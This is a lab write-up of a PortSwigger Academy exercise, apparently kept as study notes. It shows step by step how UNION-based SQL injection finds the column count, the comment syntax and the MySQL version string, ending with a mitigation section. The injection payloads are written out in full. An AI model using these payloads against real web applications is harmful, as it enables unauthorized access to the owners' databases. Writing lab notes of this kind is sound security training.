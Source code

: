 # SQL Injection - UNION Attack: Querying the Database Type and Version on MySQL and Microsoft

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: Database Fingerprinting (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL#
```
Response: HTTP/2 200 OK

**Step 2: Understanding Database Type**

The server does not like the input `--`. The `#` was accepted instead. It is similar to `--` and comments out the rest.

`--` is standard SQL single-line comment. It requires space or newline after it. `#` is MySQL-specific single-line comment. It does not require a space after.

In this case the backend server is probably MySQL.

**Note:** When the query is commented out using `--`, the SQL query becomes:
```sql
SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL--'
```

If there is no space after `--`, the trailing `'` is not commented out, and this causes a syntax error (hence 500 Internal Server Error).

A space or `+` after the standard SQL single-line comment, `--` will also work as it adds an additional space which the standard SQL single-line comment requires.

```sql
' UNION SELECT NULL,NULL--+
```

**Step 3: Identifying String-Compatible Columns**

```sql
' UNION SELECT 'a','a'#
```
Response: HTTP/2 200 OK

**Step 4: Retrieving Database Version**

```sql
' UNION SELECT @@version,NULL#
```
Response: HTTP/2 200 OK

![burpsuite response](./misc-images/07-1.png)

This retrieved the version of the database.

**Note:** This command will differ based on database:
- Microsoft, MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Information Disclosure | High – Database version and type exposed |
| System Information | High – Database fingerprinting possible |
| Attack Planning | Medium – Version-specific exploits possible |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to retrieve database version information using UNION-based SQL injection. The `@@version` command proved highly effective in identifying the MySQL database version. Learned the importance of understanding database-specific syntax and comment styles for successful information gathering.

---

## Notes

